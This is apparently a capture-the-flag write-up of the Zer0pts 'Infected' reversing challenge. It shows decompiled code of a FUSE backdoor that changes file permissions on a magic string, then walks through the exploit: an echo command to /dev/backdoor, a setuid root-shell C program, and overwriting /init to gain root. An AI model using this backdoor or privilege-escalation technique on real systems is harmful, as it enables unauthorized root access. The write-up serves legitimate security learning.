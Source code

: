 # Zer0pts Infected Write Up

## Details:

Jeopardy style CTF

Category: Reversing

## Write up:

This challenge had an nc connection with a proof of work check. Upon connecting to the system you saw that the backdoor file provided by the challenge was in /dev. The challenge has told us that the flag was in root but we did not have access to the directory.

After downloading the file I tried running it but it crashed immediately. I then started reversing the file. After reversing for a bit I found the following function:

```c
unsigned __int64 __fastcall backdoor_write(__int64 a1, const char *a2, size_t a3)
{
  int v3; // eax
  char *s; // [rsp+30h] [rbp-C0h]
  const char *s1; // [rsp+38h] [rbp-B8h]
  char *file; // [rsp+40h] [rbp-B0h]
  const char *nptr; // [rsp+48h] [rbp-A8h]
  struct stat64 v10; // [rsp+50h] [rbp-A0h] BYREF
  unsigned __int64 v11; // [rsp+E8h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  s = strndup(a2, a3);
  if ( s )
  {
    s1 = strtok(s, ":");
    file = strtok(0LL, ":");
    nptr = strtok(0LL, ":");
    if ( s1 && file && nptr && !strncmp(s1, "b4ckd00r", 8uLL) )
    {
      stat64(file, &v10);
      if ( (v10.st_mode & 0xF000) != 0x8000 || (v3 = atoi(nptr), chmod(file, v3)) )
        fuse_reply_err(a1, 22LL);
      else
        fuse_reply_write(a1, a3);
    }
    else
    {
      fuse_reply_err(a1, 22LL);
    }
    free(s);
  }
  else
  {
    fuse_reply_err(a1, 22LL);
  }
  return __readfsqword(0x28u) ^ v11;
}
```

This seemed to compare some string to the format :b4ckd00r:file:value. File was then checked to see if it was a file with stat64, and was then passed the chmod, and the value was passed as the second parameter to chmod meaning it was the value for which permissions to set. After setting a value the program would call fuse error, if the write was not correct then the function would call the standard fuse write.

After connecting to the server again I tested this by trying to change the permissions on /init. I did this by trying echo ":b4ckd00r:/init:4095" > /dev/backdoor. with 4095 being full permissions. This ended up changing the permissions as expected. From here I needed to find a way to gain shell access. We then set up the following c program:

```c
#include <stdlib.h>
#include <unistd.h>

int main()
{
	setuid(0);
	system("/bin/sh");
}
```

Compiling this and setting it with full permissions worked on our system so we piped the input into base64 and copied it. Then we went onto the server and gave /init full permissions before piping the copied bytes into base64 decoder and into the /init file, overwriting it. After giving /init full permissions once again we were then able to run it and get a shell. From here we went into /root where there was a txt file with the flag.